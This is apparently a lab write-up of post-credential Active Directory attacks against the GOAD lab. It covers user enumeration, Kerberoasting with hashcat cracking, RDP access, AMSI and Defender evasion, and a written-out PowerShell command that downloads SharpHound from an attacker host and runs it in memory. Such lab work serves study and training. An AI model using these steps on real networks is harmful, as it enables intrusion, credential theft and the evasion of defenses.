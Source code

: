 ```yaml
---
description: Enumeration with Valid Credential
---
```


# Reconnaissance 0x02

From [Reconnaissance 0x01](reconnaissance-0x01.md) we got 4 users with passwords, now we wanna do Enumeration with valid Credential maybe we find other important information&#x20;

by using Impacket-GetADUsers or LdapSearch or you can get rdp Session then use the AD module or Powerview or anything else, just open your mind then you can do what you want with different methods&#x20;

I tried to use EnumUsers on all Domains but the Credential Works just With noth.sevenkingdoms.local,  you can dig deep with this Step and get more information

<figure><img src="../../.gitbook/assets/impacket-GetADUsers-01.png" alt=""><figcaption><p>Impacket-GetADUsers</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/ldapserch-Users-01.png" alt=""><figcaption><p>ldapsearch</p></figcaption></figure>

We didn't get more information than we have, so the last thing we will try to discover SPN users by using impacket-GetuserSPN

<figure><img src="../../.gitbook/assets/impacket-getusersspns-01.png" alt=""><figcaption><p>impacket-GetUsersSPNs</p></figcaption></figure>

Hmm, we got 2 SPN users with some interesting things \
the Jon.Snow user has CIFS Service on Winterfell DC and HTTP Service on thewall DC, but What are these Services?\
The CIFS stands for Common Internet File System and is used to Access file sharing\
The HTTP used to allow WinRM,  if we succeed in cracking the TGS hash we can open the RDP session on thewall and Access all files on Winterfell, Let's Start to get hashes using impacket-GetUserSPNs with `-request` and crack hashes with hashcat&#x20;

<figure><img src="../../.gitbook/assets/hashtype.png" alt=""><figcaption><p>hashType</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/tgshash-johnSnow.png" alt=""><figcaption><p>crackTGShash</p></figcaption></figure>

Now we have enough Information and Credentials, so let's get RDP session \
i started with `Castelblack 192.168.56.11` with brandon.stark user\
you can use xfreerdp or Win RDP or anything else

<figure><img src="../../.gitbook/assets/xfreerdp.png" alt=""><figcaption><p>xfreeRDP</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/rdp.png" alt=""><figcaption><p>rdp</p></figcaption></figure>

But we have low privilege so what i can do with low privilege? \
i used powerup and didn't get anything&#x20;

<figure><img src="../../.gitbook/assets/invoke-allchecks.png" alt=""><figcaption><p>powerUp</p></figcaption></figure>

i tried to close Windows Defender but i couldn't &#x20;

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

Hmmm, I started with manual Enumeration, so I discovered files like users and got all users logged on to this machine and I can use PowerShell so I discovered local administrators group&#x20;

<figure><img src="../../.gitbook/assets/net-localgroup.png" alt=""><figcaption><p>local Administrators</p></figcaption></figure>

so the vagrant is the local Admin but this will be the last choice &#x20;

now we want to run Bloodhound to discover easily, but we have a little problem&#x20;

Restricted Execution Policy > so Set Execution policy bypass on the process \
AMSI detection > you have to bypass amsi \
Windows Defender > Bypass it by loading your scripts in memory&#x20;

<figure><img src="../../.gitbook/assets/amsi-policy-vagrant.png" alt=""><figcaption></figcaption></figure>

let's load sharphound.exe in memory to use it\
`$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8000/SharpHound.exe')`\
`$assem = [System.Reflection.Assembly]::Load($data)[Sharphound.Program]::Main("-d north.sevenkingdoms.local -c all".Split())`&#x20;

<figure><img src="../../.gitbook/assets/bloodhound-bs.png" alt=""><figcaption><p>bloodhound </p></figcaption></figure>

<figure><img src="../../.gitbook/assets/bloodhound-bs-seven-north.png" alt=""><figcaption></figcaption></figure>

now we will look at any interesting information from Bloodhound

